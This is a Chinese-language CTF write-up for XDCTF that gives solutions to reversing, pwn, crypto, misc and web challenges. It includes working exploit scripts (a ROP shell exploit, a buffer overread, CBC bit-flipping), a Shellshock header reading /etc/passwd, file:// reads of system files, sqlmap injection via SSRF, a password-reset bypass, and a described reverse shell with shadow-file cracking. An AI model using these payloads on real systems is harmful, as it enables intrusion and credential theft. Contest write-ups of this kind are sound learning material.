

#XDCTF Writeup
##Team:PueplerocFans


###re100

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
__Url__ = 'Http://www.purpleroc.com'
__author__ = 'Tracy_梓朋'


key = ";%#848N!0Z?7'%23]/5#1\"YX"
payload = "ZzAwZF9DcjRrM3JfZzBfb24="

tmp = []
result = []
for i in key:
    if (ord(i) - 0x20 < 0x1f):
        tmp.append(chr(ord(i) - 0x20))
    else:
        tmp.append(i)
skey = tmp[::-1][6:]
for i in range(18,24):
    skey.append(tmp[i])

for i in range(0,24):
    result.append(chr(ord(skey[i])^ord(payload[i])))

print "".join(result)
```

没搞明白为啥前十二字节与后十二字节不同，找了个长得像的，提交～
flag:xdctf{U'Re_aWes0me}

###re200:
好像是先判断长度，后判断特殊符号位，用特殊符号将flag分为三部分，每部分验证方式不同，最后猜为Congra_tulat$ions，结果错了。
全部走完如下：


###PWN100
MS12-027的攻击样本，网上找到exp，根据exp中的信息，找到shellcode位置，dump出来重新编译一个exe。
调试得到flag：
```
CPU Dump
Address   Hex dump                                         ASCII
00424C1D  63 6D 64 2E|65 78 65 20|2F 63 20 65|63 68 6F 20| cmd.exe /c echo
00424C2D  78 64 63 74|66 7B 64 34|5F 35 68 31|5F 66 75 5F| xdctf{d4_5h1_fu_
00424C3D  64 34 31 5F|77 30 5F 66|33 31 7D 20|3E 20 63 3A| d41_w0_f31} > c:
00424C4D  5C 66 6C 61|67 2E 74 78|74 20 26 26|20 61 74 74| \flag.txt && att
00424C5D  72 69 62 20|63 3A 5C 66|6C 61 67 2E|74 78 74 20| rib c:\flag.txt
00424C6D  2B 68                                            +h
```

###PWN200
典型的栈溢出,开了dep,aslr,没有提供libc,但是程序使用了write函数,可以读取任意内存,于是想到使用pwntools的DynELF来搜索内存,寻找system的地址,/bin/sh字符串则可以通过保存到bss段,bss段可读可写可执行而且位置固定不变.

```
from pwn import *

context(arch = 'i386', os = 'linux')

elf = ELF('./pwn200')
plt_write = elf.symbols['write']
plt_read = elf.symbols['read']
vulfun_addr = 0x08048484

def leak(address):
    payload1 = 'a'*112 + p32(plt_write) + p32(vulfun_addr) + p32(1) +p32(address) + p32(256)
    p.send(payload1)
    data = p.recv(256)
    print "%#x => %s" % (address, (data or '').encode('hex'))
    return data

#p = remote('127.0.0.1',30001)
#p = process('./pwn200')
p = remote('133.130.111.139', 2333)
p.recvuntil('\n')
d = DynELF(leak,elf = ELF('./pwn200'))

system_addr = d.lookup('system', 'libc')
print "system_addr=" + hex(system_addr)

bss_addr = 0x0804a020
pppr = 0x804856c

payload2 = 'a'*112  + p32(plt_read) + p32(pppr) + p32(0) + p32(bss_addr) + p32(8) 
payload2 += p32(system_addr) + p32(vulfun_addr) + p32(bss_addr)

print "\n###sending payload2 ...###"
p.send(payload2)
print "###sending /bin/sh###"
p.send("/bin/sh\0")
 
p.interactive()


```


###PWN400

ida载入程序,可以看到,程序会将flag.txt的内容读取到栈中,于是想到在栈中应该有个办法可以输出越界,分析程序的各种限制,发现存在问题的地方
if ( (unsigned __int16)(file_name_length + 2) <= (_BYTE *)recv - (_BYTE *)src + recv_length - 46 )

file_name_length是16位长度,且可由用户控制,于是尝试\xff\xff,加2后,越界,然后输出了一大堆东西,即获得flag

```
from zio import *

io = zio(('159.203.87.2', 8888))

welcome = io.read_until_timeout()

io.write('a'*100 + 'PK\x01\x02'+ 'b'*24 + '\xff\xff' + 'c'*18)

io.interact()
```

###crypt200
脚本如下：
```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
__Url__ = 'Http://www.purpleroc.com'
__author__ = 'Tracy_梓朋'


import socket
import time
import binascii

SERVER_HOSTNAME = '133.130.52.128'
#SERVER_HOSTNAME = '127.0.0.1'
SERVER_PORT = 6666

def mkprof(s):
    clientsocket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    clientsocket.connect((SERVER_HOSTNAME, SERVER_PORT))
    s=str(s)
    clientsocket.send("mkprof:"+s)
    ret = clientsocket.recv(1024)
    clientsocket.close()
    return str(ret)

def parse(s):
    clientsocket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    clientsocket.connect((SERVER_HOSTNAME, SERVER_PORT))
    s=str(s)
    clientsocket.send("parse:"+s)
    ret = clientsocket.recv(1024)
    clientsocket.close()
    return str(ret)


input_length = 0
last_ret = ''
# while True:
#     input_length += 1
#     s = 'a' * input_length
#     print s
#     this_ret = parse(s)
#     print this_ret
#     #find common prefix of last_ret and this_ret
#     time.sleep(0.5)
#     prefix_length = 0
#     while prefix_length<len(last_ret) and last_ret == this_ret:
#         prefix_length += 1
#
#     last_ret = this_ret
#     print prefix_length
#     if prefix_length>0 and prefix_length%16 == 0:
#         break

prefix_length = len("aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa")
block_length = prefix_length/2

for retry in xrange(1):
    #retry at most 10 times

    #flag = "admin=true"
    #s = flag + '\x04' * (block_length - len(flag)) + '\x04' * 15
    s = 'XXXXXXXXXXXXXXXX:admin<true:XXXX'
    #x = list(encryptParams('XXXXXXXXXXXXXXXX:admin<true:XXXX'))
    #print (x)

    #s = '\x04'*(block_length-6)+':admin<true:'+'\x04'*(block_length*2-18)
    ret = mkprof(s)
    print ret
    rrr = binascii.unhexlify("684299166a05383e6eaa9139f8d8f5ff8cda560698b1987eb2092534397496b71cae195f7e49ee3436f206ea9348d6f6f07f716887e51353e4f2281aa6fdfcee56c071d435c1635851ecd2ef643b1f101978bbff0139407141b6ac81d3eee13c130090512adb8b3d0d50dc6ea8ec5f7c")
    x = list(rrr)
    x[32] = chr(ord(x[32]) ^ 1)
    x[38] = chr(ord(x[38]) ^ 1)
    x[43] = chr(ord(x[43]) ^ 1)
    ret = binascii.b2a_hex("".join(x))
    print ret
    ret = parse(ret)

    print "2:" + ret
    if 'Congratulations!' in ret:
        print ret
        exit()
```


###MISC100
根据提示braintools
找到[原题](https://ctf-team.vulnhub.com/hackim-2015-programming-100/)

```
+++++++++[->+++++++++<]>+++++++.<++++[->----<]>----.-.<++++[->++++<]>+.<+++[->---<]>-----.<+++++++[->+++++++<]>++++.<++++[->----<]>-.-.<++++++[->------<]>------------.--------.-.---.<+++++++[->+++++++<]>++++++.---.+++.<++++++[->------<]>-------.<+++++++[->+++++++<]>.+++++++.<++++++++[->--------<]>-.---.<+++++++[->+++++++<]>+++++++++++.++++++.+.+++++.-------.+.<+++[->+++<]>+++++.<++++++++++[->----------<]>----------------.++++++.+.+++++.-------.+.<+++[->+++<]>+++++.<
```
decode

######flag XDCTF{ji910-dad9jq0-iopuno}


###MISC200

给了个不知道什么类型的文件，然后foremost得到两个zip，一个是未加密的，包含文件如下：  
```
-rw-rw-r-- 1 tracy tracy  144  6月 10  2004 pepack10.txt
-rw-rw-r-- 1 tracy tracy  265  9月 24 16:26 readme.txt
-rw-rw-r-- 1 tracy tracy  609  6月 10  2004 svkpoep.txt
```
一个是加密了的，文件如下：  
```
-rw-rw-r-- 1 tracy tracy  265  9月 24 16:26 readme.txt
-rw-rw-r-- 1 tracy tracy  265  9月 24 16:27 flag.txt
```
意思是，要破解这个zip咯。  
然后在areyoukidding里看到了pkcrack几个字。  
下载下来，编译好，执行命令：
```
./pkcrack -c crypt.zip -C readme.txt -p plain.zip -P readme.txt -d flag.txt
unzip flag.zip
cat flag.txt
For this question,the flag is XDCTF{biiubiiiiiiiiiiiiiiiu&ddddyu}
```


###MISC500
 由于服务链接不上了 所以直接写了。
 链接上好像有个提示是最有用的Linux命令 fuzz了几个命令都直接输出 输出man的时候有了回显 于是想到man的tips[不曾想过的的命令执行技巧](https://www.91ri.org/13393.html)
 执行man -P "ls -la" id 成功回显
 然后通过由于限制了长度 所以wget了一个Python来反弹了个Shell 看到有个flag?文件夹 里面的.flag和flag.php提示 flag在隔壁老王那里 和查看/etc/shadow 
 想到了密码爆破 脱下/etc/passwd /etc/shadow
 使用john跑了一下 跑出了隔壁老王的密码 666666
 ssh上去之后 查看history有明显的提示flag在www.flag.com 以及存在shellshock
 User-Agent:() { :; }; /bin/cat /etc/passwd
 成功get flag:)
 ######flag xdctf{where_there_is_a_shell_there_is_a_way}

###WEB1-100
http://133.130.90.172/5008e9a6ea2ab282a9d646befa70d53a/index.php~
成功返回了源代码 phpjm加密的 在[phpjm解密](http://tool.lu/php/)

根据判断挺明显的了 根据[国外文献](https://pen-testing.sans.org/blog/2014/12/18/php-weak-typing-woes-with-some-pontification-about-code-and-pen-testing) 
payload:http://133.130.90.172/5008e9a6ea2ab282a9d646befa70d53a/index.php?test=240610708

######flag XDCTF{XTchInaIqLRWlJF0RI59aoVr5atctVCT}

###WEB1-200
http://flagbox-23031374.xdctf.win:1234/
查看源代码提示

    <a class="small right floated item" href='/examples'>//nobody guess this url to login,hoho~ 
访问examples 探针提示是jsp 想到了[
Apache Tomcat样例目录session操纵漏洞](http://zone.wooyun.org/content/20238)
根据设置Session 

    user=Administrator login=true 
    
成功获得flag

######flag XDCTF{2b5b7133402ecb87e07e85bf1327bd13}

###WEB1-300
 (这题真。。)
 首页提示read 就想到了php的file://协议 成功读到了/etc/passwd
 读取http://133.130.90.188/index.php?link=file:///etc/hosts
 ```
127.0.0.1	localhost
127.0.1.1	ubuntu

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
127.0.0.1	9bd5688225d90ff2a06e2ee1f1665f40.xdctf.com
```
由于http://133.130.90.188/.user.ini 提示basedir 基本毁灭了找nginx配置文件的想法
打算跑一下端口查看下有什么敏感信息否
```
import requests

for i in range(65535):
    target = "http://133.130.90.188/index.php?link=http://9bd5688225d90ff2a06e2ee1f1665f40.xdctf.com:%s/" %i
    try:
        r = requests.get(target,timeout=5)
        lens =  len(r.text)
        if lens != 145:
            print target
    except Exception,e:
        pass
    
```

发现了22 80 3306 3389...开着 3389很可疑 访问了一下 发现是个Discuz7.2 操起exp直接尝试sqli
payload
```
sqlmap -u "http://133.130.90.188/index.php?link=http://9bd5688225d90ff2a06e2ee1f1665f40.xdctf.com:3389/faq.php%3Faction%3Dgrouppermission%26gids%5B99%5D%3D%2527%26gids%5B100%5D%5B0%5D%3D%2529*" --suffix="%2523 " --technique=E --dbms=mysql  --dump -T "cdb_members" -D "dz72"
```


######flag XDCTF{bf127a6ae4e2_ssrf_to_sqli}

###WEB1-400

查看http://133.130.90.172/47bce5c74f589f4867dbd57e9ca9f808/Picture.php 源码
```
<!--Please input the ID as parameter with numeric value-->
```
根据官方tips 发现存在布尔型的盲注
```
http://133.130.90.172/47bce5c74f589f4867dbd57e9ca9f808/Picture.php?ID=%22%20or%201%23
True
```
```
http://133.130.90.172/47bce5c74f589f4867dbd57e9ca9f808/Picture.php?ID=%22%20or%200%23
False
```
fuzz了一下 发现过滤了select mid sleep left.... 于是想到了用正则匹配猜出username & password

payload
```
http://133.130.90.172/47bce5c74f589f4867dbd57e9ca9f808/Picture.php?ID=%22%20or%20username%20like%20%22%25admin%25
```
username=admin
```
http://133.130.90.172/47bce5c74f589f4867dbd57e9ca9f808/Picture.php?ID=%22%20or%20password%20like%20%22$1$%25
```


fuzz到

```
http://133.130.90.172//47bce5c74f589f4867dbd57e9ca9f808/Picture.php?ID=%22%20or%20password%20like%20%225832f4251cb6f43917df%25
True
```

```
http://133.130.90.172//47bce5c74f589f4867dbd57e9ca9f808/Picture.php?ID=%22%20or%20password%20like%20%225832f4251cb6f43917df1%25
False
```
password = 5832f4251cb6f43917df

21位密码 想到了dedecms加密方式 去掉前3后1
```
恭喜，该密文已被SOMD5解密~!

明文:lu5631209
```

######flag XDCTF{e0a345cadaba033073d88d2cc5dce2f7} 

###WEB2-200
根据提示 github 被删除的代码 想到了rip-git.pl和git reset

恢复了最初的版本 获取到源码
cat index.php 获取flag

######flag XDCTF-{raGWvWahqZjww4RdHN90}

###WEB2-100
根据提示 前台逻辑漏洞 所以定位到了front_app/controllers/Auth.php文件
```
 public function handle_resetpwd()
    {
        if(empty($_GET["email"]) || empty($_GET["verify"])) {
            $this->error("Bad request", site_url("auth/forgetpwd"));
        }
        $user = $this->user->get_user(I("get.email"), "email");
        if(I('get.verify') != $user['verify']) {
            $this->error("Your verify code is error", site_url('auth/forgetpwd'));
        }
        if($this->input->method() == "post") {
            $password = I("post.password");
            if(!$this->confirm_password($password)) {
                $this->error("Confirm password error");
            }
            if(!$this->complex_password($password)) {
                $this->error("Password must have at least one alpha and one number");
            }
            if(strlen($password) < 8) {
                $this->error("The Password field must be at least 8 characters in length");
            }
            $this->user->update_userinfo([
                "password" => $password,
                "verify" => null
            ], $user["uid"]);
            $this->success("Password update successful!", site_url("auth/login"));
        } else {
            $url = site_url("auth/resetpwd") . "?email={$user['email']}&verify={$user['verify']}";
            $this->view("resetpwd.html", ["form_url" => $url]);
        }
    }
```
之前膜拜过[ph牛的文章](http://zone.wooyun.org/content/15859)
看了数据库结构 发现verity默认为Null
而且在php中NULL == Array
empty(Array) 为False
所以verity为数组就可以绕过判断
查看页面源代码 就可以得到作者邮箱
```
    <meta name="author" content="xdsec-cms@xdctf.com"/>
```
构造payload
```
POST /index.php/auth/resetpwd?email=xdsec-cms@xdctf.com&verify[]= HTTP/1.1
Host: xdsec-cms-12023458.xdctf.win
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:41.0) Gecko/20100101 Firefox/41.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://xdsec-cms-12023458.xdctf.win/index.php/auth/resetpwd?email=xdsec-cms@xdctf.com&verify[]=
Cookie: _xsrf_cookie_token=ef7425109798e47c9e46ebcd2edbb9a9; xdsec_cms_session=60f435b8b7ab18ab604d1f344e74ed1d08a616a4
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 91

_xsrf_form_token=ef7425109798e47c9e46ebcd2edbb9a9&password=a123456789&repassword=a123456789
```
######flag XDCTF-{i32mX4WK1gwEE9S9Oxd2} 

